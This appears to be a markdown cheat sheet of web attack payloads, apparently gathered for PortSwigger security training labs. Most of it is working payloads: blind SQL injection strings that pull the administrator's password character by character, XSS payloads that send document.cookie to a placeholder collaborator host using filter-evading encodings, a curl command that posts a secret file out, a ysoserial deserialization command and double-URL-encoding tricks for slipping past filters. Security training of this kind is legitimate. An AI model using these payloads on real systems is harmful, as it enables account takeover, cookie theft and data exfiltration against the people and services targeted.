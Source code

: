 # SQL Injection

```sql
-- In order by statment https://portswigger.net/support/sql-injection-in-the-query-structure
-- ASCII converts the characters to numbers
(CASE+WHEN(SELECT+ASCII(SUBSTRING(password,1,1))+FROM+users+where+username+%3d+'administrator')%3d97+THEN+AUTHOR+ELSE+TITLE+END)

-- Divides by 1 if true, 0 if not
-- Used when a number (int) was in front of the query
-- %2F = /, %2B = +, %2A = *, %2D = -
%2F(CASE+WHEN+(SELECT+SUBSTRING(password,1,1)+FROM+users+where+username+%3d+'administrator')%3d'a'+THEN+1+ELSE+0+END)

-- Detection
||(SELECT+''+FROM+dual)|| --> Oracle

-- Conditional Errors
'||+(select+case+when+(substr(password,1,1)%3d'a')+then+to_char(1/0)+else+null+end+from+users+where+username%3d+'administrator')+||' --> Oracle
```

# XSS

```js
// No periods (.)
fetch(atob('<base64-of-your-colaborator>'), {method: 'POST', mode: 'no-cors', body:eval(atob('ZG9jdW1lbnQuY29va2ll'))})

// No parentheses
eval.call`${"fetch\x28'<your-collaborator>', {method: 'POST', mode: 'no-cors', body: document.cookie}\x29"}`
//  With base64 encoding
eval.call`${atob`YWxlcnQoMSk=`}`

// SVG to steal cookie
'"><svg/onload=fetch(`//<your-collaborator>/cookie?=${encodeURIComponent(document.cookie)}`)>
```

# Code Injection
```bash

# Curl file contents
curl -X POST <your-collaborator> -d @/home/carlos/secret

# Gzip and base64 ysoserial
java -jar ysoserial-all.jar CommonsBeanutils1 "CMD" | gzip | base64 -w0
```

# Obfuscation

## Double URL Encoding 
### The letter a = %2561
- %25 = % when decoded so it ends up as %61 which equals a
- To quickly do this in console:
  - Set the urlencoded string to a variable and use replace all:
    ```js
    // admin urlencoded is: %61%64%6d%69%6e
    > s = "%61%64%6d%69%6e"
    > s.replaceAll('%', '%25')
    // Outputs: %2561%2564%256d%2569%256e
    ```
